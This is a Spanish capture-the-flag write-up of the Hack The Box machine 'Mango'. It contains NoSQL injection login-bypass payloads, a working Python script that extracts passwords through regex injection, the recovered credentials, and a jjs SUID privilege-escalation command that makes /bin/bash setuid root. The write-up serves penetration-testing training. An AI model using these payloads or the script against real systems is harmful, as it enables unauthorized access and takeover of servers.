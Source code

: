 ```yaml
---
layout: post
title:  "Maquina Retirada Mango de Hack The Box (Necesario VIP)"
categories: "HTB"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada MANGO
tags: HTB, Bypass, NoSQLI, Mongo-db, JJS, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Mango ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.162       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos un dominio 

Usamos la herramienta whatweb
```bash
# whatweb 10.10.10.162                                                                                                                                                                                        1 ⚙
http://10.10.10.162 [403 Forbidden] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], Title[403 Forbidden]
```
Nos arroja un Forbidden y si probamos con el dominio encontrado?
```bash
# whatweb staging-order.mango.htb                                                                                                                                                                             
http://staging-order.mango.htb/ [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], PasswordField[password], Script, Title[Mango | Sweet & Juicy]
```
Nos arroja mas informacion.

Vemos que Tenemos un Login, probamos las tipicas injecciones de SQLI y vemos que no nos respode a ninguna.. 
Buscamos informacion sobre las bases de datos `Mongo-db`
Vemos que justo para las bases de datos `Mongo-db` hay unas injecciones llamadas `NoSqli`.

Injeccion No Sqli
```bash
username[$regex]=^a.*$&password[$ne]=lol&login=login    --- codigo 302
```
Averiguamos la longitud de la contraseña para el usuario `admin`: `username=admin&password[$regex]=^.{12}$&login=login   ----302`

Averiguarmos la longitud de la contraseña para el usuario `mango`: `pusername=mango&password[$regex]=^.{16}$&login=login ------- 302`

Conseguimos sacar dos usuarios validos: `admin , mango`

Nos montamos un `exploit` en python3 para sacar las contraseñas de los dos usuarios enumerados de la misma forma.
```python3
#!/usr/bin/python3

import requests
import re
import signal
import sys
import pdb
import string
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
s = string.ascii_letters + string.digits + string.punctuation 

def makeRequest():

    password = ""

    for i in range(0, 20):

        for character in s:

            p1.status("Probando el caracter %s" % character)

            post_data = {
                'username': 'admin',
                'password[$regex]': '^%s.*$' % (re.escape(password + character)),
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Password")
    time.sleep(2)

    makeRequest()
```
Lanzamos este exploit para sacar las passwords
Para el user `mango`:
```bash
# python3 Mango_NoSQLI.py                                                                                                                                                                                     
[↙] Fuerza bruta: Probando el caracter ~
[◒] Password: h3mXK8RhU~f{]f5H
```
Para el user `admin`:
```bash
# python3 Mango_NoSQLI.py                                                                                                                                                       

[..\.....] Fuerza bruta: Probando el caracter ~
[◥] Password: t9KcS3>!0B#2
```

# Accediendo por el SSH con las Credenciales Obtenidas
Teniendo las credenciales de la base de datos podriamos probar a conectarnos por el servicio `ssh` con las `passwords` encontradas.
```bash
mango@mango:~$ whoami
mango

mango@mango:/home$ ls
admin  mango

mango@mango:/home/admin$ ls
user.txt

```
ernumeramos el sistema:
```bash
mango@mango:/$ find / -group admin -type f 2>/dev/null
/var/crash/_usr_bin_pkttyagent.4000000000.crash
/home/admin/.bash_logout
/home/admin/.profile
/home/admin/.bashrc
/home/admin/user.txt
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root  admin  10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Como nosotros teniamos la password encontrada del usuario `Admin` podemos probar a hacer un cambio de usuario con el comando `su`.
Vemos que lo hacemos sin problema y conseguimos la flag de `user.txt`.

# Escalada de privilegios mediante el Binario SUID jjs
Con el binario SUID encontrado de jjs nos dirigimos como siempre a la pagina de GTFOBins y chequeamos por `jjs` y permisos SUID:
```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs ``
```
Para Hacerlo de una manera mas sencilla, nos abrimos una session interactiva y modificamos un poco el comando a introducir:
- La Modificamos ya que estamos en una session interactiva de jjs -
```bash
$ Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()

$ Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
```
Introducimos la sentencia en `java` y conseguimos `root`
Maquina Rooteada =) KOHack

